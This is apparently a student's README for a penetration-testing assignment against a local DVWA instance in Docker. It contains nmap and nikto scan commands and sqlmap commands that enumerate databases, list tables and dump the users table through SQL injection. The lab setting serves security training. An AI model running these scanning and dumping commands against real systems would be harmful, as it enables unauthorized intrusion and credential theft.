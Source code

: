 # Week-2 VAPT Assignment – DVWA SQL Injection Lab

## Objective
The goal of this assignment is to simulate a **Vulnerability Assessment & Penetration Test (VAPT)** on the Damn Vulnerable Web Application (**DVWA**) running in Docker.  
We focus on identifying, exploiting, and documenting **SQL Injection vulnerabilities** following a structured methodology.

---

## ⚙ Environment Setup

**Start DVWA in Docker:**
```bash
sudo docker run -it -p 8080:80 vulnerables/web-dvwa
```
## Verify:
```bash
sudo docker ps
# Screenshot: ./screenshots/01_docker_running.png
```
## Recon / Scanning
Port & service:
```bash
nmap -sV -p- localhost -oN logs/nmap_full.txt
nmap -sV -p 8080 localhost -oN logs/nmap_8080.txt
# Screenshot: ./screenshots/02_nmap_scan.png

```
Web scan:
```bash
nikto -h http://localhost:8080 -o logs/nikto.txt
# Screenshot: ./screenshots/03_nikto_scan.png
```

## Exploitation (SQLi)
Set DVWA security to low in the web UI and get PHPSESSID cookie, then:
DB enumeration:
```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session>; security=low" --batch --dbs \
  -o logs/sqlmap_dbs.txt
# Screenshot: ./screenshots/04_sqlmap_dbs.png
```
List tables:
```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session>; security=low" -D dvwa --tables --batch \
  -o logs/sqlmap_tables.txt
# Screenshot: ./screenshots/05_sqlmap_tables.png
```
Dump users:
```bash
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=<session>; security=low" -D dvwa -T users --dump --batch \
  -o logs/sqlmap_dump.txt
# Screenshot: ./screenshots/06_sqlmap_dump.png
```








